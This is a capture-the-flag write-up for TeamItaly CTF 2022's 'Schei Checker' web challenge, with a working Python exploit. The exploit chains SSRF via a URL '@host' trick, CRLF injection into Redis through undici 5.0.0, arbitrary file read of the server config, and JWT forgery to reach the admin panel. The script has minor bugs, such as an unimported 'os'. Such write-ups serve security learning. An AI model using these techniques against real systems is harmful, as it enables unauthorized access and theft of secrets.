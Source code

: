 # TeamItaly CTF 2022

## Schei Checker (6 solves)

The challenge is a webapp which lets you display updated [Italian Lira ERC20 Token](https://italianlira.ws/) prices.

Source code is available for download, and necessary to solve the challenge.

Flag is in the admin control panel.

### Solution

Looking at the network requests to pull the prices, we can see that it includes the path of the price endpoint to be proxied by the backend. This feature can be turned into SSRF: the backend chaines the Lira API to the user-provided endpoint but without postpending `/` to the URL, so the HTTP basic authentication trick is doable: putting `@otherhost` after the hostname will connect to `otherhost` instead of the Italian Lira API, and pass the Italian Lira API hostname as the Authentication header.

Analyzing the source code, we can see that there is an banning mechanism to prevent bruteforce of the admin password, whenever a client does many login attempts in a short period of time, the client IP will be registered into Redis as a banned user, and when a request to the login endpoint will be made by a banned user, the ban page will be served. The ban page is set to `html/tooManyAttempts.html`, but it's joined with data from the database, so with access to the database (Redis), we could override the banpage and load any file from the project’s work directory. Also, the right `X-Forwarded-For` header is not set by the server, so for every legitimate user this mechanism will never actually work (the serialization utility refuses empty strings), but the header can be freely spoofed.

The backend is using version 5.0.0 of the request libary `undici`, which is [vulnerable to a line injection vulnerability in the path](https://github.com/nodejs/undici/security/advisories/GHSA-3cvr-822r-rqcc).

We can access the admin page, but username and password are required. The username is known to be from the source code "admin", but the password is unknown, so it is inaccessible by a normal user. It is built with JWTs.

Chaining all of this, we can craft a malicious URL which will connect to the Redis database, and exploit the line feed injection in the path to send custom commands to Redis, registering an IP with a ban JSON object, with attempts set to a high number and the ban page changed to the configuration file of the backend server. We can send it to the server using the prices proxy endpoint.

We can then make a request to the homepage spoofing the IP to the custom one, and we will receive the ban page, which is actually the server configuration file, with our JWT key. We can use it to forge a JWT key with the username of the admin, and accessing the admin panel with it, we will receive the flag.

To prevent similiar attacks Redis drops the connection when it receives `Host:` or `POST` commands, but the attack is still possible with a CRLF injection in the query string/path of a GET request.

### Exploit

Requires PyJWT, secrets, and requests.

```python
import re
import jwt
import sys
import json
import secrets
import hashlib
import requests

from urllib.parse import quote

# Retrieve flag from the remote service
challenge_url = os.environ.get(
    "URL", "http://schei-checker.challs.teamitaly.eu:15001")
redis_url = 'schei-redis:6379'

# Generate a random IP (doesn't need to be a valid one)
random_ip = secrets.token_hex(12)
random_ip_hash  = hashlib.sha256(random_ip.encode()).hexdigest()
print("[*] Random IP: %s" % random_ip)
print("[*] Random IP hash: %s" % random_ip_hash)

# Create a JSON string with the IP registered as banned,
# and the ban page changed to the server config file
json = '"' + json.dumps({
    "ip": random_ip,
    "banPage": "../config.js",
    "attempts": 40
}).replace('"', '\\"') + '"'

# Use the HTTP Authentication trick to connect to Redis instead of the challenge server,
# and use the query string line feed injection to register the JSON payload into redis
redis_attack = "set auth#%s %s\n" % (random_ip_hash, json)
url_attack = (
    "@" + redis_url + "/?"+
    "\n" +
    redis_attack +
    "\n"
)
url = challenge_url+'/pricesAPI/getPrice?url=' + quote(url_attack)
print("[*] Attack URL: %s" % url_attack)
print("[*] Final URL: %s" % url)
print("[*] Redis attack: %s" % redis_attack)


response = requests.get(url).text
print("[*] Response: %s" % response)

# Make a login request to retrieve the ban page (which is now the config file)
config = requests.post(challenge_url+'/adminAPI/login?', json={
    "username": "admin",
    "password": random_ip_hash[:10]
}, headers={'X-Forwarded-For': random_ip}).text
print("[*] Configuration file:\n    %s" % config.replace("\r\n", "\n").replace("\n", "\n    "))

# Parse the JWT secret from the configuration file
jwt_secret = re.search(r'jwtSecret[ ]*=[ ]*[\`\"\'](.*)[\`\"\']', config)
jwt_secret = jwt_secret.group(1)
print("[*] JWT secret: %s" % jwt_secret)

# Craft admin JWT token
admin_token = jwt.encode({'username': 'admin'}, jwt_secret, algorithm='HS256')
print("[*] Admin JWT token: %s" % admin_token)

# Request the flag from the admin panel
flag = requests.get(challenge_url+'/adminAPI/getCTFFlag', headers={'Authorization': 'Bearer ' + admin_token}).json()
print("[*] Flag: %s" % flag)

```
